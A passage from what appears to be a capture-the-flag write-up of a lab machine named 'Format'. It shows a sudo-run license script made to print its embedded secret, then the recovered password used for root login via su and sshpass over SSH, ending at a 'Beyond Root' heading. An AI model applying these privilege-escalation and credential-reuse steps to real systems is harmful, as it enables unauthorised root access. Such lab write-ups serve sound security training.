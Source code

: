 I’ve made the first name `password:` to show easily where the secret starts. Running the script now prints the unencrypted key:

```

cooper@format:~$ sudo license -p rooted

Plaintext license key:
------------------------------------------------------
microblogrooted/%QIQ#0?qCGURyI8}RZrdh>#l^L`P7XbP#n@*'a*password:unCR4ckaBL3Pa$$w0rd

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABkYqXC2Xp3JGFVI__uSfLXpBzX84cyRMkAtN5tYqc3CgN8qGmQ70FWSBwn4RVPgKRVgfh0UqkoXO007-QouG9IaUKUygOQAr5TXp2ItrC5eANNlSpeyC37bi9KRF4nRCW4YmebU2_nr0HC8w9gIVfFo2XyjHkYlACttPbHmlQ61mc-8dE5CP6-bUWLBnIcmHqMXF06

```

The secret is `unCR4ckaBL3Pa$$w0rd`.

### su / SSH

That secret works as the password for root via `su`:

```

cooper@format:~$ su -
Password: 
root@format:~#

```

and SSH:

```

oxdf@hacky$ sshpass -p 'unCR4ckaBL3Pa$$w0rd' ssh root@10.10.11.213
...[snip]...
root@format:~# 

```

I’m able to grab `root.txt`:

```

root@format:~# cat root.txt
aca96cee************************

```

## Beyond Root - Two Patched Unintendeds

### Background
